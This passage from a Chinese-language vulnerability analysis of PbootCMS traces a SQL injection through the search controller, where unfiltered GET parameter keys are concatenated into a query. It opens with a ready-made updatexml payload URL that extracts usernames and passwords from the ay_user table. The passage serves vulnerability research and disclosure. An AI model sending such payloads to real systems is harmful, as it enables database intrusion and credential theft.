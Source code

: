 ```php
http://www.pboot.cms/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123
```

`PbootCMS/apps/home/controller/SearchController.php` 中 index 方法

```php
    public function index()
    {
        $content = parent::parser('search.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
        $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    }
```

跟进

```php
$this->parser->parserSearchLabel
```

`PbootCMS/apps/home/controller/ParserController.php` 中 parserSearchLabel 方法，

这里将 恶意语句带入，

![image-20210221152402336](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210221152402336.png)

接下来就是读取数据这里

```php
 // 读取数据
if (! $data = $this->model->getList($scode, $num, $order, $where1, $where2, $fuzzy)) {
          $content = str_replace($matches[0][$i], '', $content);
          continue;
}
```

这里接收了外部了外部所有的get参数然后就直接拼接进入$where2这个数组 然后带入数据库进行getList方法查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入.

## 七、API 模板注入

